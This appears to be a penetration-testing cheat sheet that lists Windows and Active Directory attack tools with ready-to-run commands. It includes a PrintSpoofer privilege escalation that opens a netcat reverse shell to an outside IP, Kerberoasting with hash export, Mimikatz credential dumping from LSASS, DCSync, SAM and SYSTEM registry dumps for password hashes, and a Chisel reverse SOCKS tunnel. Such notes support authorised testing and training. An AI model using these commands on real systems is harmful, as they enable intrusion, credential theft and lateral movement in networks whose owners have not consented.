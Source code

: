 # tools

### Inveigh.ps1
https://github.com/Kevin-Robertson/Inveigh/blob/master/Inveigh.ps1
  Similar to Responder, for powershell 
    PS C:\> Import-Module .\Inveigh.ps1 
    PS C:\> (Get-Command Invoke-Inveigh).Parameters
    PS C:\> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y


### PowerView.ps1
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
Replacements for various Windows net*
PS C:\> import-module .\PowerView.ps1
PS C:\> Get-DomainPolicy
PS C:\> Get-DomainUser * -spn | select samaccountname  #to extract TGS tickets
PS C:\> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\all_tickets.csv -NoTypeInformation  #export to csv


### nc.exe
https://github.com/int0x33/nc.exe/
netcat Win binary, for port listening and reverse shell 


### printspoofer
To escalate with SeImpersonatePrivilege & SeAssignPrimaryTokenPrivilege
PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"


### Rubeus
https://github.com/GhostPack/Rubeus
Kerberoasting from windows machine
PS C:\> .\Rubeus.exe kerberoast /stats  #to gather some stats
PS C:\> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap  #/nowrap to copy hash easily
PS C:\> .\Rubeus.exe kerberoast /user:"username" /nowrap  #to test spesific user
PS C:\> .\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap  #RC4 encryption when requesting a new service ticket


### SharpHound.exe
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors
To gather AD data for Bloodhound


### Snaffler.exe
https://github.com/SnaffCon/Snaffler
Credential Enumeration
PS C:\> .\Snaffler.exe  -d <DomainName> -s -v data
  

### Chisel
https://github.com/jpillora/chisel
Pre-compiled Chisel for port-forwarding, both linux and windows
sudo ./chisel server --reverse -v -p 1234 --socks5
./chisel.exe client -v <YourIP>:1234 R:socks
  

### Lazagne
https://github.com/AlessandroZ/LaZagne
checks for passwords in common locations

  
### Linpeas / Winpeas
Checks for possible priv esc for linux and windows
  
  
### Mimikatz
https://github.com/ParrotSec/mimikatz
  
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords

#use lsass.DMP and put results to lsass.txt
#lsass.DMP can be acquired with right click lsass.exe and create dump method from task manager in details
mimikatz # sekurlsa::minidump lsass.DMP
mimikatz # log lsass.txt
mimikatz # sekurlsa::logonPasswords

#for dcsync abuse
mimikatz # lsadump::dcsync
mimikatz # lsadump::dcsync /user:<UserName>  #for spesific user only 


reg save HKLM\SAM sam.h  #to Dump SAM
reg save HKLM\SYSTEM sys.h  #to Dump SYSTEM
reg save HKLM\SECURITY sec.h  #to Dump SECURITY
mimikatz # lsadump::sam sys.h sam.h sec.h  #get hashes from these files with mimikatz

  
  
  
  
  
  
  
  
  










